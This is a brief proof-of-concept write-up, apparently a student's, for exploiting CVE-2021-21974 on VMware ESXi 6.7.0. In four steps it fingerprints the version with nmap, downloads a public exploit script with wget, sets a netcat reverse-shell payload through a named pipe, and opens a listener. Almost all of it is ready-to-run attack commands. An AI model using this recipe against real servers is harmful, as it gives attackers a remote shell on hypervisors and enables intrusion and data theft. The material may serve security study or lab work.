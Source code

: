 # PROOF OF CONCEPT
> Hamza Ghariani 4 NIDS 1

## 1. vmware version on port 443 must be **ESXi 6.7.0**


```bash
nmap --script vmware-version -p 443 IP
```

## 2. Python payload to exploit the cve

```bash
wget https://raw.githubusercontent.com/straightblast/My-PoC-Exploits/master/CVE-2021-21974.py
```

## 3. Set up IP address and Port

```python
shell_cmd = b'mknod /tmp/backpipe p ; /bin/sh 0</tmp/backpipe | nc IP PORT 1>/tmp/backpipe'
```

## 4. Start Listening to port

```bash
nc -lnvp PORT
```
